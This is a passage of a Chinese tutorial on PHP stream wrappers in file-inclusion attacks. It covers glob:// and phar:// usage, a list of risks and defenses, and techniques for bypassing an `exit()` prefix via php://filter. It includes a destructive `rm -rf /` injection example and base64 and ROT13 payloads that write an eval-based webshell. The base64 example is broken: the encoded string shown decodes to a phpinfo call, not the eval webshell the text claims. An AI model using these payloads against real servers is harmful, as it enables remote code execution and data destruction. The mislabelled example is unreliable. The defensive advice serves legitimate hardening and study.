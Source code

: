 
### 2.7 glob:// 协议
- **作用**：查找匹配的文件路径模式（如批量匹配`*.php`文件）。  
- **用法示例**：`glob:///var/www/*.php`（列出目录下所有PHP文件）。  


### 2.8 phar:// 协议
- **作用**：访问PHP归档文件（Phar，类似ZIP/TAR）中的资源，支持ZIP格式压缩包。  
- **基本格式**：`phar://绝对路径/压缩包/子文件`。  
- **用法示例**：`?file=phar://test.zip/shell.php`（读取压缩包内的`shell.php`）。  
- **配置依赖**：PHP版本≥5.3.0，不受`allow_url_fopen`和`allow_url_include`影响。  


### 2.9 其他协议（ssh2://、rar://、ogg://、expect://）
- `ssh2://`：通过SSH2协议访问远程资源。  
- `rar://`：处理RAR压缩文件中的子文件。  
- `ogg://`：访问音频流资源。  
- `expect://`：处理交互式流（如命令交互）。  


## 3. 安全风险与防御措施
### 3.1 主要安全风险
- **代码注入**：通过`php://input`、`data://`等协议注入恶意代码（如`<?php system('rm -rf /');?>`）。  
- **信息泄露**：未过滤的`file://`、`php://filter`可能泄露服务器敏感文件（如`/etc/passwd`、源码）。  
- **远程文件包含（RFI）**：`http://`、`ftp://`等协议可执行远程恶意脚本。  
- **目录遍历**：结合`../`与`file://`访问未授权路径。  


### 3.2 防御措施
- **输入验证与过滤**：严格校验用户输入的文件路径，限制仅访问合法文件。  
- **禁用危险配置**：在`php.ini`中设置`allow_url_fopen=Off`和`allow_url_include=Off`，禁用远程资源访问。  
- **限制文件访问范围**：通过`open_basedir`配置PHP可访问的基目录，禁止跨目录访问。  
- **禁用危险函数**：限制`include`、`file_get_contents`等函数的使用，或通过`disable_functions`禁用风险函数。  
- **错误处理优化**：配置错误日志记录，避免敏感信息（如文件路径）直接显示在Web页面。  


## 4. 特殊场景：exit死亡绕过技巧
当代码中存在`file_put_contents($filename, "<?php exit();" . $content);`时，`exit()`会阻止后续代码执行，可通过以下方法绕过：

### 4.1 base64编码绕过
- **原理**：利用`php://filter`的`convert.base64-decode`过滤器，将恶意代码Base64编码后写入，解码时覆盖`exit()`。  
- **示例**：  
  ```
  filename=php://filter/convert.base64-decode/resource=a.php  
  content=aPD9waHAgcGhwaW5mbygpOz8+ （前加"a"补全Base64字节，实际解码为<?=@eval($_POST[a]);?>）
  ```


### 4.2 ROT13编码绕过
- **原理**：用`string.rot13`过滤器对恶意代码ROT13编码，解码后还原代码，规避`exit()`。  
- **示例**：  
  ```
  filename=php://filter/string.rot13/resource=a.php  
  content=<?=@riny($_CBFG[n]);?> （ROT13编码后，解码为<?=@eval($_POST[a]);?>）
  ```
